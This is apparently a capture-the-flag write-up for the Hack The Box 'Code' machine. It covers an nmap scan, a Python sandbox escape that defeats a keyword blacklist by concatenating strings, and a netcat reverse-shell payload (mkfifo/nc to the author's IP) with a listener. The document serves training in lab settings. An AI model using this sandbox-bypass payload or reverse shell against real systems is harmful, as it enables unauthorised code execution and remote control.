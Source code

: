 ```yaml
---
title: Hackthebox code machine write up 
categories: PENTEST 
image: null
published: true
---
```



H3ll0 pwn3rs !!!


Here is a writeup for Hackthebox `code machine`


Hackthebox `Code box `  is an easy linux machine.

We exploit the machine as follow:
- Exploit RCE in python sanbox
- Make reverse shell
- Found databse file
- retrive Martin password in md5 hash
- crack the password with crackstation
- connect to ssh with martin credential
- use  linpeas to enum
- /etc/passwd is writable by martin
- create new-user root user
- switch to new-user and get access to root


# Nmap scan
```
sudo nmap -A -T4 --min-rate 1000 10.10.11.62                                                                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-21 22:29 WAT                                                             
Nmap scan report for 10.10.11.62                                                                                               
Host is up (0.76s latency).                                                                                                    
Not shown: 998 closed tcp ports (reset)                                                                                        
PORT     STATE SERVICE VERSION                                                                                                 
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)                                           
| ssh-hostkey:                                                                                                                 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)                                                                 
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)                                                                |_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)                                                              
5000/tcp open  http    Gunicorn 20.0.4                                                                                         
|_http-title: Python Code Editor                                                                                               
|_http-server-header: gunicorn/20.0.4                                                                                          
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                            
TCP/IP fingerprint:

```

### Found two open port 22 for ssh and 5000 for  http 


When we navigate to http://10.10.11.62:5000/, we found web page that let you run python code.
I try injection in login and singup form by not success.
After some try and error i decide to focus on python code execution feature.
The idea here is to bypass sandbox and make code  code execution.
you can try to play with it to understand it better.
After spend some time, i knew that we deal with python sanbox, some keywork are blacklisted.
keyword like those:  ` system, exec, builtins, os , popen, read,...`. 

How to bypass this sandbox??? 
Below are  the steps:
- found a way to access buitins: print.__self__
- from buitins, access to __import__ to import os: `.__dict__.get('imp' +ort')('o'+'s')
- from os, call system to exec code on the remote server: .__getattribute__("sys" +"tem")
- exec your command: ("command")

The payload :

```python
print.__self__.__dict__.get('__imp' +'ort__')('o'+'s').__getattribute__("sys"+"tem")("command")"
```


I run nc in listen mode on my local machine
``nc -lvp 4444``

and send this payload:
```python3
print.__self__.__dict__.get('__imp' +'ort__')('o'+'s').__getattribute__("sys"+"tem")("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.79 4444 >/tmp/f")


# Bouummmm ! get reverse shell 

![recon](/assets/hackthebox/get_reverse_shell.png)
